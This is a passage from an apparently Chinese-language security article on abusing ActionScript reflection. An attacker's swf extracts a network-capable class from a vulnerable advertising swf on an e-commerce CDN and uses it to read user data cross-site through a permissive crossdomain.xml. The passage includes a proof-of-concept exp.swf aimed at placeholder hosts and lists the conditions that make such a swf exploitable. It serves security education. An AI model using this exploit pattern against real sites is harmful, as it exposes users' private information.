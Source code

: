 事实上，整个过程无需子 swf 参与。所谓的『提取』，其实就是 Flash 中的反射机制。通过反射，我们即可隔空取物，直接从目标 swf 中取出我们想要的类。

因此我们只需从目标 swf 里，找到一个使用了网络接口类，即可尝试为我们效力了。

开始我们的第二个案例。这是某电商网站 CDN 上的一个广告活动 swf，反编译后发现，其中一个类里封装了简单的网络操作：

```
// vul.swf
public class Tool {
    public function getUrlData(url:String, cb:Function) : void {
        var ld:URLLoader = new URLLoader();
        ld.load(new URLRequest(url));
        ld.addEventListener('complete', function(e:Event) : void {
            cb(ld.data);
        });
        ...
    }
    ...

```

在正常情况下，需一定的交互才会创建这个类。但反射，可以让我们避开这些条件，提取出来直接使用：

```
// exp.swf
var loader:Loader = new Loader();
loader.contentLoaderInfo.addEventListener('complete', function(e:Event) : void {
    var cls:* = loader.contentLoaderInfo.applicationDomain.getDefinition('Tool');
    var obj:* = new cls;

    obj.getUrlData('http://victim-site/user-info', function(d:*) : void {
        trace(d);
    });
});
loader.load(new URLRequest('//swf-site/vul.swf'));

```

由于 victim-site/crossdomain.xml 允许 swf-site 访问，于是 vul.swf 在不经意间，就充当了隐私泄露的傀儡。

攻击者拥有了 victim-site 的访问权，即可跨站读取页面数据，访问用户的个人信息了。

![](http://drops.javaweb.org/uploads/images/c4997b0688255b45e888dc935fd67364839ea900.jpg)

由于大多 Web 开发者对 Flash 的安全仍局限于 XSS 之上，从而忽视了这类风险。即使在如今，网络上仍存在大量可被利用的缺陷 swf 文件，甚至不乏一些大网站也纷纷中招。

当然，即使有反射这样强大的武器，也并非所有的 swf 都是可以利用的。显然，要符合以下几点才可以：

*   执行 Security.allowDomain(可控站点)
    
*   能控制触发 URLLoader/URLStream 的 load 方法，并且 url 参数能自定义
    
*   返回的数据可被获取
    

第一条：这就不用说了，反射的前提也是需要对方授权的。

第二条：理想情况下，可直接调用反射类中提供的加载方法。但现实中未必都是 public 的，这时就无法直接调用了。只能分析代码逻辑，看能不能通过公开的方法，构造条件使得流程走到请求发送的那一步。同时 url 参数也必须可控，否则也就没意义了。
